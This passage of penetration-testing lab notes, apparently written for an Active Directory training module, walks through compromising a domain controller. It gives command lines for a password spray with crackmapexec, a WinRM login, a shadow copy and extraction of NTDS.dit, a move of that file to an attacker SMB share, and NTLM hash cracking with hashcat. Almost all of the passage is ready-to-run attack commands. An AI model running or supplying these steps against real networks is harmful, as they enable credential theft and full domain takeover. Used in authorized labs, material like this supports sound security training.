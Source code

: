 [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) to generate a list of possible usernames

### Launching attack with crackmapexec
```
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

### Capturing NTDS.dit

NTDS.dit file is stored at %systemroot%/ntds on the domain controllers in a forest.

Connecting to DC
```
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Checking local group membership
```
net localgroup
```

To make a copy of the NTDS.dit file, we need local admin (Administrators group) or Domain Admin (Domain Admins group) (or equivalent) rights. 

Checking account privileges including Domain
```
net user bwilliamson
```

Create shadow copy of C:
```
vssadmin CREATE SHADOW /For=C:
```

Copy NTDS.dit from volume shadow copy to another location on the drive
```
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

create an SMB share on our attack host using the method mentioned in [[#Sharing with attack box]]

Copy to attack host
```
cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

*___OR__*

Use cme to capture NTDS.dit
```
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

### Cracking with Hashcat

```
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```
